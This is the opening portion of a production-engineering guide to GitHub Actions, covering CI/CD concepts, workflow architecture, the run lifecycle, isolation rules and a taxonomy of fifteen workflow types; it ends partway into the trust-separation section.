# GitHub Actions: Zero to Hero Production Engineering Guide

> A production-oriented course, architecture guide, security guide, cookbook and runbook for backend engineers who will design, operate, debug and improve CI/CD systems on GitHub Actions.
>
> **Written:** 20 September 2026, verified against the current GitHub Docs (docs.github.com) and GitHub changelog at that date.
> **Primary example stack:** Java 21 + Spring Boot + Maven + PostgreSQL/Flyway, packaged as a container, deployed with Helm to Kubernetes on AWS via OIDC. Node.js, Python and Go equivalents appear in the backend chapter.

---

## Table of Contents

**[Part 1: Foundations](#part-1-foundations)**

- [Chapter 1. What Is CI/CD?](#chapter-1-what-is-cicd)
- [Chapter 2. What Is GitHub Actions?](#chapter-2-what-is-github-actions)
- [Chapter 3. Why GitHub Actions?](#chapter-3-why-github-actions)
- [Chapter 4. Core Architecture](#chapter-4-core-architecture)
- [Chapter 5. The Mental Model: How a Run Actually Executes](#chapter-5-the-mental-model-how-a-run-actually-executes)

**[Part 2: Types of GitHub Actions Workflows Used in Production](#part-2-types-of-github-actions-workflows-used-in-production)**

- [Chapter 6. The Taxonomy: Fifteen Kinds of Workflow](#chapter-6-the-taxonomy-fifteen-kinds-of-workflow)
- [Chapter 7. The Fifteen Categories in Depth](#chapter-7-the-fifteen-categories-in-depth)

**[Part 3: GitHub Actions Fundamentals](#part-3-github-actions-fundamentals)**

- [Chapter 8. YAML and Workflow Syntax](#chapter-8-yaml-and-workflow-syntax)
- [Chapter 9. Jobs, Steps, Actions and Shell Commands](#chapter-9-jobs-steps-actions-and-shell-commands)
- [Chapter 10. Events](#chapter-10-events)
- [Chapter 11. Contexts and Expressions](#chapter-11-contexts-and-expressions)
- [Chapter 12. Secrets, Variables and Configuration](#chapter-12-secrets-variables-and-configuration)
- [Chapter 13. GITHUB_TOKEN and Permissions](#chapter-13-github_token-and-permissions)

**[Part 4: Intermediate Topics](#part-4-intermediate-topics)**

- [Chapter 14. Artifacts, Caches and Outputs: Three Ways to Move Data](#chapter-14-artifacts-caches-and-outputs-three-ways-to-move-data)
- [Chapter 15. Caching in Depth](#chapter-15-caching-in-depth)
- [Chapter 16. Matrices and Parallelization](#chapter-16-matrices-and-parallelization)
- [Chapter 17. Services and Containers](#chapter-17-services-and-containers)
- [Chapter 18. Environments](#chapter-18-environments)
- [Chapter 19. Concurrency](#chapter-19-concurrency)
- [Chapter 20. Failure Handling](#chapter-20-failure-handling)

**[Part 5: Advanced Workflow Engineering](#part-5-advanced-workflow-engineering)**

- [Chapter 21. Reusable Workflows](#chapter-21-reusable-workflows)
- [Chapter 22. Composite Actions and the Other Action Types](#chapter-22-composite-actions-and-the-other-action-types)
- [Chapter 23. Monorepos](#chapter-23-monorepos)
- [Chapter 24. Organization-Scale Architecture](#chapter-24-organization-scale-architecture)

**[Part 6: Identity and Runners](#part-6-identity-and-runners)**

- [Chapter 25. OIDC and Cloud Authentication](#chapter-25-oidc-and-cloud-authentication)
- [Chapter 26. Runners](#chapter-26-runners)

**[Part 7: CI and CD Engineering](#part-7-ci-and-cd-engineering)**

- [Chapter 27. CI Architecture](#chapter-27-ci-architecture)
- [Chapter 28. Backend CI](#chapter-28-backend-ci)
- [Chapter 29. Artifact Management and Container CI/CD](#chapter-29-artifact-management-and-container-cicd)
- [Chapter 30. CD Architecture and Environment Promotion](#chapter-30-cd-architecture-and-environment-promotion)
- [Chapter 31. Deployment Strategies](#chapter-31-deployment-strategies)
- [Chapter 32. Database Migrations](#chapter-32-database-migrations)
- [Chapter 33. Rollbacks](#chapter-33-rollbacks)

**[Part 8: Security](#part-8-security)**

- [Chapter 34. The GitHub Actions Threat Model](#chapter-34-the-github-actions-threat-model)
- [Chapter 35. Workflow Injection](#chapter-35-workflow-injection)
- [Chapter 36. Fork Security and Untrusted Pull Requests](#chapter-36-fork-security-and-untrusted-pull-requests)
- [Chapter 37. Supply Chain Security and Action Pinning](#chapter-37-supply-chain-security-and-action-pinning)
- [Chapter 38. Secret Leakage and Least Privilege](#chapter-38-secret-leakage-and-least-privilege)

**[Part 9: Production Operations](#part-9-production-operations)**

- [Chapter 39. Observability, Analytics and DORA Metrics](#chapter-39-observability-analytics-and-dora-metrics)
- [Chapter 40. Notifications](#chapter-40-notifications)
- [Chapter 41. Debugging GitHub Actions](#chapter-41-debugging-github-actions)
- [Chapter 42. Performance and Cost Optimization](#chapter-42-performance-and-cost-optimization)
- [Chapter 43. Branch Protection, Merge Queues and Branching Strategies](#chapter-43-branch-protection-merge-queues-and-branching-strategies)

**[Part 10: Production Workflow Examples](#part-10-production-workflow-examples)**

- [Chapter 44. The Examples](#chapter-44-the-examples)

**[Part 11: Architecture, Practice and Judgment](#part-11-architecture-practice-and-judgment)**

- [Chapter 45. Production Architecture Patterns](#chapter-45-production-architecture-patterns)
- [Chapter 46. The Complete Reference Project](#chapter-46-the-complete-reference-project)
- [Chapter 47. How to Design a GitHub Actions Workflow Like a Senior Engineer](#chapter-47-how-to-design-a-github-actions-workflow-like-a-senior-engineer)
- [Chapter 48. Reviewing Production Workflows](#chapter-48-reviewing-production-workflows)
- [Chapter 49. Common Anti-Patterns](#chapter-49-common-anti-patterns)
- [Chapter 50. Real-World Scenarios](#chapter-50-real-world-scenarios)

**[Part 12: Engineering Practice](#part-12-engineering-practice)**

- [Chapter 51. A Progressive Learning Path](#chapter-51-a-progressive-learning-path)
- [Chapter 52. Hands-On Projects](#chapter-52-hands-on-projects)

**[Part 13: Reference](#part-13-reference)**

- [Chapter 53. Important Distinctions](#chapter-53-important-distinctions)
- [Chapter 54. Cheat Sheets](#chapter-54-cheat-sheets)
- [Chapter 55. Production Checklists](#chapter-55-production-checklists)
- [Chapter 56. Glossary](#chapter-56-glossary)

**[Part 14: Putting It All Together](#part-14-putting-it-all-together)**

- [Chapter 57. How I Would Design GitHub Actions for a New Production Backend](#chapter-57-how-i-would-design-github-actions-for-a-new-production-backend)

*Sections inside each chapter are numbered (for example 46.4) and can be found with your browser or the GitHub outline button.*

---

## How to Read This Guide

**Three ways to use it**

1. **As a course.** Read Parts 1 to 7 in order. Do the exercises in Part 12. By the end you can design a pipeline from a blank repository.
2. **As a reference.** Jump to a chapter, a cheat sheet (Chapter 54), or a checklist (Chapter 55).
3. **As a review tool.** Use Chapter 48 ("Reviewing Production Workflows") when someone hands you a workflow file and asks "is this OK?".

**Labels used for claims.** Every recommendation in this guide belongs to one of four categories. Where it matters, the text says which one.

| Label | Meaning | How much to trust it |
|---|---|---|
| **Official behavior** | What GitHub documents the platform does. | Treat as fact, but re-check when versions change. |
| **Industry practice** | Widely recommended by security and platform communities (OpenSSF, CNCF, Google/DORA research and similar). | Strong default. |
| **Common pattern** | What many teams do in production, with trade-offs. | Use with judgment. |
| **My recommendation** | The opinionated engineering approach of this guide. | Defensible defaults. Change them if you know why. |

**Conventions in code**

- `⚠️ INTENTIONALLY INSECURE EXAMPLE` marks code you must never copy.
- Teaching snippets in Parts 1 to 6 use readable version tags such as `actions/checkout@v7`. **Production examples from Part 10 onward pin every third-party action to a full commit SHA** with the version in a trailing comment. Chapter 37 explains why and how to keep pins current.
- The SHAs were resolved from the upstream tags on 20 September 2026. Before you use them, confirm each SHA belongs to the official repository, not a fork, and review the release you are adopting. A SHA in a guide is a starting point, not an endorsement.
- Action inputs and outputs change between major versions. When you bump a pinned action to a new major version, read its release notes.
- Placeholders: `ORG`, `REPO`, `123456789012` (AWS account), `example.com`.

**What changed recently (verify against docs when you read this)**

These items are new enough that many tutorials, including the video course you are following, may not mention them. They are all covered where relevant.

- **`pull_request_target` hardening.** Since 8 December 2025 the workflow file and `GITHUB_REF` for `pull_request_target` always come from the default branch. `actions/checkout` v7 and later refuses to check out fork pull request heads in that event unless you set `allow-unsafe-pr-checkout: true`. On 17 September 2026 GitHub made *workflow execution protections* generally available, including a default rule that disables `pull_request_target` for public repositories (enforced from 2 November 2026 for repositories on the default policy).
- **Cache access modes.** A workflow-level and job-level `cache-mode` key exists, and low-trust triggers (`pull_request_target`, `issue_comment`, `workflow_run`) get read-only cache access by default.
- **Concurrency queues.** `concurrency` has a `queue` property (`single` by default, or `max` for up to 100 pending runs).
- **Background steps.** `background`, `wait`, `wait-all`, `cancel` and `parallel` step keys exist for running servers alongside tests.
- **Direct (unzipped) artifact uploads** with `actions/upload-artifact` v7 (`archive: false`), and enforced digest checks in `actions/download-artifact` v8.
- **Expression `case()` function**, scheduled workflow `timezone`, and new runner labels such as `ubuntu-slim`.
- **A 50-rerun limit** per workflow run (April 2026).

---

# Part 1: Foundations

## Chapter 1. What Is CI/CD?

Before GitHub Actions, you need the problem that CI/CD solves.

**Continuous Integration (CI)** is the practice of merging small changes into a shared branch frequently, and automatically verifying every change with a repeatable process: compile, test, analyse. The output of CI is *evidence*: "this exact commit builds, passes tests, and satisfies our quality rules."

**Continuous Delivery (CD)** extends CI so that every change that passes verification produces a *releasable artifact* and is kept deployable at all times. Actually deploying to production is a business decision, made by a person pressing a button or approving a gate.

**Continuous Deployment (also CD)** goes one step further: every change that passes all automated gates is deployed to production automatically, with no human approval.

| | Continuous Integration | Continuous Delivery | Continuous Deployment |
|---|---|---|---|
| Question it answers | "Is this change safe to merge?" | "Could we ship this right now?" | "Ship it if it passes." |
| Output | Pass/fail evidence | A deployable, versioned artifact | A running production change |
| Human in the loop | Reviewers | Approver for production | None after merge |
| Typical trigger | Pull request, push | Merge to main | Merge to main |

**Why does it matter to a backend engineer?** Because backend failures are expensive and asymmetric. A broken frontend build is visible in minutes. A backend regression can corrupt data, and a bad database migration can take you offline. A CI/CD system is the mechanism that lets you make many small, reversible, well-tested changes instead of a few large, risky, manually assembled ones. The DORA research programme associates high delivery performance with four measures: deployment frequency, lead time for changes, change failure rate, and time to restore service. Chapter 39 covers how to measure them.

**The core principles that recur through this guide**

1. **Fast feedback.** A pipeline that takes 40 minutes is a pipeline people route around.
2. **Determinism.** The same commit should produce the same result. Flaky pipelines destroy trust.
3. **Build once, deploy the same artifact everywhere.** What you tested must be what you ship (Chapter 29).
4. **Least privilege.** Every job gets only the access it needs (Chapters 13 and 38).
5. **Everything as code.** The pipeline is version-controlled, reviewed and tested like the application.
6. **Reversibility.** Every deployment has a defined way back (Chapter 33).

---

## Chapter 2. What Is GitHub Actions?

"GitHub Actions is a CI/CD platform" is true but says nothing. Here is what it *is*.

> A **workflow** is a version-controlled automation program stored in your repository as a YAML file under `.github/workflows/`. GitHub starts that program when a configured **event** occurs (a push, a pull request, a schedule, a manual click, a webhook). GitHub schedules the workflow's **jobs** onto **runners** (machines), executes each job's **steps** (shell commands or reusable **actions**), and provides built-in mechanisms for passing data between steps and jobs, storing **artifacts** and **caches**, injecting **secrets**, issuing scoped **permissions** and short-lived identity tokens, gating **environments**, and recording **deployments**.

Three ideas in that paragraph deserve emphasis.

1. **It is event-driven automation, not only CI/CD.** Anything that happens on GitHub (an issue opened, a release published, a label added) can start a workflow. CI/CD is the most common use, not the only one.
2. **The workflow file is code that runs with your credentials.** Whoever can change a workflow, or an action it uses, can potentially run code with access to your secrets and your cloud. This is why so much of this guide is about security.
3. **GitHub is the control plane; the runner is the data plane.** GitHub decides *what* runs *when* and *who* may. A runner (a VM or container that GitHub hosts, or that you host) does the actual work.

### The vocabulary, in one table

| Term | What it is | Analogy |
|---|---|---|
| **Workflow** | A YAML file describing automation | A program |
| **Event** | Something that happens and triggers a workflow | The `main()` call |
| **Workflow run** | One execution of a workflow, tied to one event | A process |
| **Job** | A set of steps run on one runner; the unit of scheduling | A thread on a fresh machine |
| **Step** | One command or action inside a job | A line of a script |
| **Action** | A reusable packaged step (JavaScript, Docker or composite) | A library function |
| **Runner** | The machine that executes a job | A worker node |
| **Artifact** | Files saved from a run so other jobs or people can download them | Build output |
| **Cache** | Files saved to speed up later runs | A build cache |
| **Environment** | A named deployment target with protection rules, secrets and variables | "staging", "production" |
| **Secret / Variable** | Configuration values (secret = encrypted, masked) | Env config |
| **Context** | A read-only object of data about the run (`github`, `env`, `secrets` and so on) | Runtime metadata |
| **Expression** | `${{ ... }}` syntax that reads contexts and calls functions | Template language |

---

## Chapter 3. Why GitHub Actions?

**Reasons teams adopt it (official and common):**

- **Proximity to the code.** The pipeline lives in the same repository, is reviewed in the same pull request, and is triggered by the same events. Permissions, pull request checks and deployments integrate natively.
- **No CI server to operate** when you use GitHub-hosted runners: clean ephemeral VMs per job.
- **Ecosystem.** Thousands of reusable actions. (This is also its biggest security risk. See Chapter 37.)
- **Built-in identity.** `GITHUB_TOKEN` for GitHub itself and OIDC for clouds.
- **Good fit for event-driven repository automation** beyond CI/CD.

**Honest trade-offs**

| Concern | Reality |
|---|---|
| YAML as a programming language | Complex logic becomes awkward. Push logic into scripts and reusable workflows. |
| Marketplace trust | Third-party actions run with your job's access. You must pin and audit them. |
| Limited built-in orchestration | No native progressive-delivery engine, no native artifact repository for production. Use Kubernetes/Argo/cloud services for those. |
| Local reproducibility | Hard to run a workflow locally. Design so that real work is in scripts you *can* run locally (`make`, Maven, shell). |
| Vendor coupling | Workflow syntax is GitHub-specific. Keep business logic out of YAML to limit lock-in. |

**Alternatives** (not exhaustive): Jenkins (self-managed, very flexible), GitLab CI, CircleCI, Buildkite (bring-your-own-runners), and GitOps controllers such as Argo CD or Flux for the *deployment* half. A common mature setup is GitHub Actions for CI and artifact production, plus a GitOps or platform tool for deployment. Chapter 30 discusses this split.

---

## Chapter 4. Core Architecture

### 4.1 The containment hierarchy

```text
Repository
  └── Workflow (.github/workflows/*.yml)
        └── triggered by an Event
              └── creates a Workflow Run
                    └── contains Jobs (parallel by default, ordered by needs)
                          └── each Job is assigned to a Runner
                                └── each Job runs Steps (in order)
                                      └── each Step is a shell command or an Action
                                            └── produce Outputs / Artifacts / Deployments
```



### 4.2 From a developer's push to production

This diagram is the mental picture the rest of the guide fills in.



### 4.3 The components, explained

**Repository.** The container for code, workflow files, secrets, variables, environments and settings. Workflows are *repository-scoped*, though reusable workflows and organization-level settings let you share across repositories.

**Workflow.** One YAML file. A repository can have many; each is independent and triggered by its own `on:` events. Independence matters: two workflows triggered by the same push run *in parallel*, and they cannot directly depend on each other (`workflow_run` and `workflow_call` are the two ways to compose them).

**Event.** The trigger. Each event has a *payload* (the details, for example the pull request number) that becomes the `github.event` context. Events determine *which version of the workflow file* runs and *how much trust* the run gets (Chapter 10).

**Job.** The unit of scheduling and isolation. Each job runs on its own fresh runner (on GitHub-hosted runners). Jobs run in parallel unless you order them with `needs`. Jobs do **not** share a filesystem. They communicate only via **outputs** (small strings), **artifacts** (files) and external systems (registries, caches).

**Runner.** The machine. GitHub-hosted runners are ephemeral VMs (or containers for the smallest sizes) that exist for exactly one job. Self-hosted runners are machines you operate. The runner application executes the job: it downloads actions, runs steps, streams logs and reports status.

**Step.** A sequential unit inside a job. A step either runs a shell script (`run:`) or invokes an action (`uses:`). Every `run:` step starts a new shell process.

**Action.** A reusable step packaged as a JavaScript action, a Docker container action, or a composite action. `actions/checkout` is the most common. Actions are *dependencies*. They are code you did not write, executing with your job's access.

**Artifacts, caches, outputs.** Three different mechanisms for carrying data. They are constantly confused (Chapter 14 has a comparison table).

**Environment and deployment.** A GitHub *environment* (for example `production`) is a named target with optional protection rules (required reviewers, wait timers, allowed branches), environment-scoped secrets and variables. When a job references an environment, GitHub records a *deployment* and enforces the protection rules *before the job starts*.

---

## Chapter 5. The Mental Model: How a Run Actually Executes

This chapter is the internal model an engineer needs. It is not the runner source code.

### 5.1 The lifecycle of one workflow run



### 5.2 Step by step

**1. Event detection.** Something happens on GitHub (a push, a pull request update). GitHub compares the event to the `on:` configuration of workflow files. Which copy of the workflow file is used depends on the event. For `push` it is the file in the pushed commit; for `pull_request` it is the file in the pull request's merge commit; for `schedule`, `workflow_dispatch` and `pull_request_target` it is the file on the default branch. This is the origin of many "my workflow does not trigger" puzzles and of key security properties.

**2. Workflow selection and run creation.** Filters (`branches`, `paths`, `tags`, `types`) are applied. Each matching workflow produces its own **workflow run**. Two workflows matching one push run in parallel.

**3. Job graph and scheduling.** GitHub builds a graph from `needs`. Jobs with no unmet dependencies are queued. Job-level `if`, matrix expansion, `runs-on` and environment protection are resolved by GitHub **before** a runner sees the job. That is why those keys accept only a limited set of contexts.

**4. Runner assignment.** For GitHub-hosted runners, GitHub provisions a fresh machine from the image named by the label. For self-hosted runners, a registered runner whose labels match *all* the labels in `runs-on` claims the job. If no runner matches, the job waits in the queue.

**5. Job execution on the runner.** The runner downloads the actions referenced, creates the workspace directory, then runs steps in order. Each `run:` step creates a new process and shell. What survives from one step to the next:

| Survives between steps in the same job | Does **not** survive |
|---|---|
| Files in the workspace and on disk | Shell variables and `export`s |
| Anything appended to `$GITHUB_ENV`, `$GITHUB_PATH` | Current working directory changes (`cd`) |
| Step outputs written to `$GITHUB_OUTPUT` | Background processes (unless you use `background:` steps or containers) |
| Installed tools | |

**6. Data flow between steps and jobs.**

```text
Step A ── writes "name=value" to $GITHUB_OUTPUT ──► steps.A.outputs.name (later steps, same job)
Job 1  ── outputs: map from step outputs        ──► needs.job1.outputs.name (dependent jobs)
Job 1  ── upload-artifact ─► artifact service ─► download-artifact in Job 2 (files)
Job 1  ── push image ─► registry ─► Job 2 pulls by digest (container artifacts)
```

Job outputs are strings, capped at 1 MB per job and 50 MB per workflow run (official). Outputs that contain secrets are redacted and not passed.

**7. Where expressions are evaluated.** `${{ ... }}` is evaluated by GitHub *or* by the runner, depending on where it appears. It is a **textual template substitution that happens before the shell sees your script**. That single fact underlies both a lot of confusing behavior and the most common class of workflow vulnerabilities (Chapter 35).

**8. Secrets and tokens.** When a job is assigned, GitHub sends the runner the secrets that job may access (repository, organization, and, if the job references an environment *and* protection rules have passed, that environment's secrets) and a job-scoped `GITHUB_TOKEN`. The runner registers secrets with a masking filter so that exact matches are replaced with `***` in logs. Masking is best-effort, not a security boundary (Chapters 12 and 38).

**9. Job completion and failure semantics.**

| Situation | What happens |
|---|---|
| A step exits non-zero | Remaining steps are skipped unless they have `if: always()`, `failure()` or `!cancelled()`. The job is marked failed. "Post" cleanup steps of actions still run. |
| `continue-on-error: true` on a step | The step's *outcome* is `failure` but its *conclusion* is `success`; the job continues. |
| A job fails | Jobs that `needs` it are skipped unless they use a status function such as `always()`. |
| `timeout-minutes` elapses | The job (or step) is cancelled. |
| A run is cancelled | Steps with `if: cancelled()` or `always()` get a limited window to run; other steps are stopped by escalating signals. |
| Two runs occur at once | They run independently and in parallel unless a `concurrency` group serializes or cancels them (Chapter 19). |

**10. Environments and deployments.** A job with `environment: production` does not go to a runner until every deployment protection rule passes (approval, wait timer, branch policy). Environment secrets are released to the job only after approval. A pending approval can wait up to 30 days, and a whole workflow run is cancelled at 35 days (official limits).

### 5.3 What is isolated, what is shared



| Scope | Shared | Isolated |
|---|---|---|
| Steps in one job | Filesystem, `$GITHUB_ENV` values, installed tools, `job` and `steps` contexts | Processes, shell variables |
| Jobs in one run | Run ID, `github` context, artifacts, `needs` outputs | Filesystem, processes, installed tools, environment variables |
| Runs of one workflow | Caches (by key and scope rules), concurrency groups | Everything else |

**Important exception for security:** on a *self-hosted, non-ephemeral* runner, jobs *do* share the machine. Files, credentials on disk and processes can leak between jobs and runs (Chapter 26).

### 5.4 Job and step statuses



---

# Part 2: Types of GitHub Actions Workflows Used in Production

You currently lack a map of what people *build* with GitHub Actions. This part gives you that map before any syntax detail, so that when you meet `on:` and `needs:` later you know what they are for.

## Chapter 6. The Taxonomy: Fifteen Kinds of Workflow

### 6.1 Where each kind sits in the software lifecycle

```mermaid
flowchart LR
    subgraph PR["At pull request time (untrusted or semi-trusted code)"]
        A["A. Code quality"]
        B["B. Tests"]
        SEC1["L. Security scans"]
        DOC["M. Docs checks"]
        I1["H. Terraform plan"]
    end
    subgraph MAIN["After merge (trusted code)"]
        C["C. Build"]
        D["D. Artifact publish"]
        E["E. Container build, scan, sign"]
        F1["F. Deploy dev and staging"]
        O["O. Deployment verification"]
    end
    subgraph REL["Release and production"]
        G["G. Release"]
        F2["F. Deploy production"]
        I2["H. Terraform apply"]
    end
    subgraph BG["In the background"]
        J["J. Scheduled maintenance"]
        IDEP["I. Dependency automation"]
        N["N. Repository automation"]
    end
    subgraph SIG["Signals"]
        K["K. Notifications"]
    end
    PR --> MAIN --> REL
    MAIN --> K
    REL --> K
    BG --> PR
```

### 6.2 The categories at a glance

| # | Category | Typical trigger | Blocks merge? | Trust level of code |
|---|---|---|---|---|
| A | Code quality | `pull_request`, `merge_group` | Formatting, lint, type errors: yes | Untrusted (PR head) |
| B | Tests | `pull_request`, `merge_group`, `push` | Yes | Untrusted |
| C | Build | `pull_request` (verify), `push` to main (produce) | Yes (verify) | Untrusted then trusted |
| D | Artifact | `push` to main, tag | No (post-merge) | Trusted |
| E | Container | `pull_request` (build only), `push` to main (push image) | Build/scan: yes | Untrusted then trusted |
| F | Deployment | `push` to main, `workflow_dispatch`, `release` | n/a | Trusted only |
| G | Release | `push` tag, `workflow_dispatch`, `release` | n/a | Trusted only |
| H | Infrastructure | `pull_request` (plan), `push` (apply) | Plan/validate: yes | Untrusted (plan), trusted (apply) |
| I | Dependency automation | Dependabot, `schedule` | Validation: yes | Untrusted |
| J | Scheduled maintenance | `schedule` | No | Trusted (default branch) |
| K | Notification | `workflow_run`, `workflow_call`, step in other workflows | No | Trusted |
| L | Security | `pull_request`, `schedule`, `push` | High-severity: yes | Mixed |
| M | Documentation | `pull_request`, `push` | Link/lint: often yes | Untrusted |
| N | Repo automation | `issues`, `pull_request_target`, `schedule` | No | Handle with extreme care |
| O | Deployment verification | Follows a deployment | Gates promotion | Trusted |

### 6.3 One principle organises all fifteen: trust separation

Split workflows by **who controls the code that runs** and **what credentials it can reach**.

